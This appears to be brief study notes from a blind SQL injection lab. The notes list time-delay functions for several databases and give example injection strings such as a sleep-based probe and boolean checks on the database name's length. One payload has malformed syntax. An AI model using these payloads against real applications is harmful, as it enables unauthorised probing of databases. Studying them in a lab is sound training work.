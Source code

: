 ## SQL Injection Blind Easy

1. Time delay cheet sheet

Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
MariaDB	SELECT SLEEP(10)
MariaDB is a fork from MySQL, Basic SQL syntax is the same

`1' and sleep(5)#`


# Boolean

0. Try 1, 2, 3 and 11

1. Get DB name len
`1' and length(database())=0#`
`1' and length(version@@)=0#`

3. Burp Repeater (Demo only)

4. Python Script

5. Selenium